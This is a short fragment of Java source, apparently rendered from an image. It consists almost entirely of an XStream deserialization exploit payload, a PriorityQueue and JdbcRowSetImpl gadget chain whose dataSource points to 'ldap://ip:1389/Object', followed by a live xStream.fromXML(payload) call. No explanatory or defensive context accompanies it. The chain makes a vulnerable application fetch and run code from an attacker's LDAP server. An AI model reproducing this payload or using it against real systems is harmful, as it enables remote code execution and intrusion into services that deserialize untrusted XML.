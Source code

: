 ```
//                "      <javax.sql.rowset.BaseRowSet>\\n" +
//                "        <default>\\n" +
//                "          <concurrency>1008</concurrency>\\n" +
//                "          <escapeProcessing>true</escapeProcessing>\\n" +
//                "          <fetchDir>1000</fetchDir>\\n" +
//                "          <fetchSize>0</fetchSize>\\n" +
//                "          <isolation>2</isolation>\\n" +
//                "          <maxFieldSize>0</maxFieldSize>\\n" +
//                "          <maxRows>0</maxRows>\\n" +
//                "          <queryTimeout>0</queryTimeout>\\n" +
//                "          <readOnly>true</readOnly>\\n" +
//                "          <rowSetType>1004</rowSetType>\\n" +
//                "          <showDeleted>false</showDeleted>\\n" +
//                "          <dataSource>ldap://ip:1389/Object</dataSource>\\n" +
//                "          <params/>\\n" +
//                "        </default>\\n" +
//                "      </javax.sql.rowset.BaseRowSet>\\n" +
//                "      <com.sun.rowset.JdbcRowSetImpl>\\n" +
//                "        <default>\\n" +
//                "          <iMatchColumns>\\n" +
//                "            <int>-1</int>\\n" +
//                "            <int>-1</int>\\n" +
//                "            <int>-1</int>\\n" +
//                "            <int>-1</int>\\n" +
//                "            <int>-1</int>\\n" +
//                "            <int>-1</int>\\n" +
//                "            <int>-1</int>\\n" +
//                "            <int>-1</int>\\n" +
//                "            <int>-1</int>\\n" +
//                "            <int>-1</int>\\n" +
//                "          </iMatchColumns>\\n" +
//                "          <strMatchColumns>\\n" +
//                "            <string>foo</string>\\n" +
//                "            <null/>\\n" +
//                "            <null/>\\n" +
//                "            <null/>\\n" +
//                "            <null/>\\n" +
//                "            <null/>\\n" +
//                "            <null/>\\n" +
//                "            <null/>\\n" +
//                "            <null/>\\n" +
//                "            <null/>\\n" +
//                "          </strMatchColumns>\\n" +
//                "        </default>\\n" +
//                "      </com.sun.rowset.JdbcRowSetImpl>\\n" +
//                "    </com.sun.rowset.JdbcRowSetImpl>\\n" +
//                "    <com.sun.rowset.JdbcRowSetImpl reference=\\"../com.sun.rowset.JdbcRowSetImpl\\"/>\\n" +
//                "  </java.util.PriorityQueue>\\n" +
//                "</java.util.PriorityQueue>";
        xStream.fromXML(payload);
    }
}


```
